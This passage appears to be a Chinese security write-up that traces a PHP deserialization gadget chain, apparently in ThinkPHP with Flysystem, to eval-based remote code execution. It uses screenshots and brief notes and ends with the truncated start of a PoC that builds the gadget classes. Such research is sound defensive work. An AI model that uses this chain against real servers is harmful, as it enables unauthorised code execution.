 ![image-20220929175451565](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202209291754640.png?x-oss-process=hzy)

继续调用save函数

![image-20220929175617821](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202209291756893.png?x-oss-process=hzy)

跟进去

![image-20220929180741660](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202209291807760.png?x-oss-process=hzy)

这个request类中url会进行解析

![image-20220929181132100](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202209291811169.png?x-oss-process=hzy)

跟进invoke函数

![image-20220929181247208](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202209291812279.png?x-oss-process=hzy)

跟进invokeMethod

![image-20220929181355062](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202209291813136.png?x-oss-process=hzy)

至此链子已经很清晰了，现在构建反序列化入口

> 需要编写一个控制器模块并存在反序列化可控点得以利用此链条

![image-20221024082721287](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202210240827393.png?x-oss-process=hzy)

访问该路由，传参测试

![image-20221024082751179](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202210240827252.png?x-oss-process=hzy)

入口点构造成功，下面开始写入poc

最后回到eval函数即可执行RCE

poc如下

```
<?php

namespace League\Flysystem\Cached\Storage{

    class Psr6Cache{
        private $pool;
        protected $autosave = false;
        public function __construct($exp)
        {
            $this->pool = $exp;
        }
    }
}

namespace think\log{
    class Channel{
        protected $logger;
        protected $lazy = true;

        public function __construct($exp)
        {
            $this->logger = $exp; 
            $this->lazy = false;
        }
    }
}

namespace think{
```